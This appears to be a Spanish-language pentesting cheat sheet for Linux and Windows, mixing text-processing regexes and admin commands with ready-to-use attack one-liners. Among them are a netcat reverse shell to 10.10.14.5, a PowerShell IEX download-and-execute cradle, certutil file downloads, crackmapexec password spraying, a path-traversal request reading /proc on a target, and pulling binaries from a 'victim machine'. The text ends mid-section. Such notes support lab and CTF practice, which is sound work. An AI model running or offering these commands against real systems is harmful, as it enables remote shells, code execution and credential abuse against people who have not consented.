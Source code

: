 ------------------------
## Expresion regulares 
**Expresion regular para añadir texto antes de cada oracion:** ``sed -E 's/^(.*)/Texto a añadir \1/g;s/\r//'``
**Expresion regular para eliminar espacios en blanco de un texto:** `/^\s*$/d`
**Expresion regular para filtrar por rangos con awk**: `awk "/' -/,/:cannot open/" `
**Expresion regular para filtrar por cadena numerica**: `grep -oP '\.\w{40}'`

----------------
## Linux
**Reverse Shell; MKFIFO**: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1| nc 10.10.14.5 443 >/tmp/f;`
**Reutilizar contraseña para todos los usuarios en el sistema con CME(crackmapexec)**: `-u users -p '<password>' --continue-on-success`
**Ejecutar comandos desde consola interactiva de Python3 y ver el output**:`print(os.popen(""$command")).read())`
**Mandar binarios de maquina victima a maquina atacando con SSH**: `sshpass -p '$passwd' scp $user@$ip:/path/to/binary .`
**Conseguir la fecha, hora, segundo y año(linux):** `date +%F_%H:%M:%S `
**Listar PID de procesos activos:** `"http://10.10.11.201:8000/?page=../../../../proc/$i/cmdline" -o -`
**Buscar por archivos con palabra determinada:** `find -name \*config\* 2>/dev/null | xargs cat`
**Tocar puertos con knock**: `knock 10.10.10.43 571:tcp 290:tcp 911:tcp`
**Cambiar la zona horaria**: `sudo timedatectl set-timezone GMT`
**Cambiar la hora a la misma que la maquina**: `sudo date --set $(curl http://timing.htb -I -s| grep Date | awk '{print $6}')`
**Deshabilitar las preguntas de descarga en FTP**: `prompt off`

---------------
## Windows
**Tirar de la ruta nativa de powershell en caso de obtener acceso denegado**: `C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell` o  `C:\Windows\SysWow64\WindowsPowerShell\v1.0\powershell`
**Vaciar el contenido de un archivo con cmd**: `<cmd /c> "copy /y NUL clean.bat"`
**Descargar e intrepretar archivo powershell(invoke)**: `<powershell> IEX(New-Object Net.WebClient).downloadString('http://<ip>/<PsScript>')` 
**Descargar archivos con certutil**: `certutil.exe -f -urlcache -split http://<ip>/<file> <name>`
**Para listar drivers existentes**: `driverquery`
**Filtrar por las flags en maquinas windows**: `cmd /c dir /r /s $flag.txt`
**Convertir un archivo a b64 con certutil para su posterior decode**: `certutil.exe -encode root.exe root.exe.b64`
**Para saber la version de windows:** `reg query "hklm\software\microsfot\windows nt\currentversion" /v ProductName`
**Listar contenido oculto:** `dir -Force`
**Listar reglas de firewall:** `netsh advfirewall show currentprofile`
**Listar permisos de un archivo:** `icacls archivo`
**Barrido de IPS desde PowerShell**: `powershell-session 1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}
`

z
## Grupos y los privilegios que tienen(linux)
**Privilegios:**
1. **ADM**. Permite leer logs.


